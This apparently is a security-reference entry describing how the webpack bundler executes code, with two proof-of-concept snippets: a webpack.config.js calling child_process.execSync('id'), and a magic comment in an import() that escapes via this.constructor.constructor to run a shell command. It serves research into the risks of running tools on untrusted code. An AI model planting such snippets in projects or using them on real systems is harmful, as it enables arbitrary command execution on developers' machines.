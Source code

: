```yaml
---
title: webpack
tags:
  - cli
  - config-file
  - eval-js
references:
- https://webpack.js.org/configuration/#root
- https://webpack.js.org/api/module-methods/#magic-comments
files: [webpack.config.js]
credits:
- allanlw
---
```


`webpack` is a javascript bundler.

## Config

`webpack` will load and execute configuration `webpack.config.js` in the current directory.

```typescript
require("child_process").execSync("id");
```

## Comments

`webpack` will execute magic comments in the analyzed files.

```typescript
import(
    /* webpackChunkName: this.constructor.constructor(`(function() {
     let require = process.mainModule.require;
     let child_process = require('child_process');
     child_process.execSync('id');
   })()`)() */
    "buffer"
);
```
